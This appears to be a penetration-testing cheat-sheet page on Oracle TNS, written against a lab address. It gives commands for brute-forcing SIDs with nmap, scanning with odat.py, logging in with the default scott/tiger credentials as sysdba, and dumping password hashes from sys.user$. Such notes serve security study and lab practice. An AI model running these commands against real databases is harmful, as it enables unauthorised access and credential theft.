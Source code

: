 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Oracle TNS

ORACLE\_HOME/network/admin

**Tnsnames.ora**

**Listener.ora**

In short, the client-side Oracle Net Services software uses the `tnsnames.ora` file to resolve service names to network addresses, while the listener process uses the `listener.ora` file to determine the services it should listen to and the behavior of the listener.

nmap

```
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```

We can use the `odat.py` tool to perform a variety of scans to enumerate

```
./odat.py all -s 10.129.204.235
```

**SQLplus - Log In**

{% code overflow="wrap" fullWidth="true" %}
```
sqlplus scott/tiger@10.129.204.235/XE;
sqlplus scott/tiger@10.129.204.235/XE as sysdba

#gdy sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig

select table_name from all_tables;

select name, password from sys.user$;
```
{% endcode %}
